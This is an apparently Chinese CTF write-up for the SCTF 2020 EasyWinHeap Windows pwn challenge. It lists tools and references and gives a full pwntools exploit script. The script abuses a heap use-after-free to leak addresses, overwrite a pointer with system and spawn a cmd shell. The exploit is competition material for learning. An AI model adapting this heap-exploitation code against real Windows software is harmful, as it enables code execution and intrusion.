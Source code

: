 ```yaml
---
title: SCTF 2020 EasyWinHeap 入门 windows pwn
date: 2020-07-09 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中

## 工具

- [https://cmder.net/](https://cmder.net/)
- [socat for windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/)
- [socat 1.7.3.2 for Windows](https://www.cybercircuits.co.nz/web/blog/socat-1-7-3-2-for-windows)
- [socat在Windows下的使用](https://juejin.im/post/5d8dd1b16fb9a04e1135dec5)
- [winpwn: pwntools for Windows (mini)](https://github.com/byzero512/winpwn)

## exp

```python
from pwn import *
#context.log_level = 'debug'
p = remote("10.10.10.133", 8888)
    	
def add(size):
	p.sendlineafter("option >\r\n", '1')
	p.sendlineafter("size >\r\n", str(size))
def show(idx):
	p.sendlineafter("option >\r\n", '3')
	p.sendlineafter("index >\r\n", str(idx))
def free(idx):
	p.sendlineafter("option >\r\n", '2')
	p.sendlineafter("index >\r\n", str(idx))
def edit(idx, content):
	p.sendlineafter("option >\r\n", '4')
	p.sendlineafter("index >\r\n", str(idx))
	p.sendlineafter("content  >\r\n", content)
def exp():
	for i in range(6):
		add(32)
	free(2)
	free(4)
	show(2)
	heap_addr = u32(p.recvuntil("\n", drop=True)[:4])
	log.info("heap_addr ==> " + hex(heap_addr))
	edit(2, p32(heap_addr-0xd8)+p32(heap_addr-0xd4))
	free(1)
	show(2)
	p.recv(4)
	image_base = u32(p.recv(4))-0x1043
	log.info("image_base ==> " + hex(image_base))
	puts_iat = image_base + 0x20c4
	log.info("puts_iat  ==> " + hex(puts_iat))
	edit(2, p32(puts_iat)+p32(image_base+0x1040)+p32(heap_addr-0xe8))
	show(2)
	ucrtbase = u32(p.recv(4))-0xb89f0
	log.info("ucrtbase  ==> " + hex(ucrtbase))
	system = ucrtbase+0xefda0
	edit(0, 'cmd\x00')
	edit(3, p32(system)+p32(heap_addr-0x60))
	show(0)
	p.interactive()
if __name__ == '__main__':
	exp()
```

## 参考

- [SCTF 2020 PWN](https://sh1ner.github.io/2020/07/07/SCTF-2020-PWN/)
- [Windows-pwn解题原理&利用手法详解](https://www.anquanke.com/post/id/188170#h3-8)
- [Windows Pwn 入门](https://ble55ing.github.io/2019/08/18/WindowsPwn1/)
- [Windows下32位进程内存模型](http://www.xumenger.com/01-windows-process-memory-20170101/)
- [SUCTF 2019 PWN](https://kirin-say.top/2019/08/19/SUCTF-2019-PWN/)
- [CTF中Windows下Pwn题的部署？](https://www.zhihu.com/question/286944913)
- [Windows pwn 的一些感悟](http://blog.eonew.cn/archives/1245)
- [xman 2017 Day 7:Windows pwn](https://www.xctf.org.cn/library/details/9d1cd32600eb05d13abe05bea120fc4c8b286019/)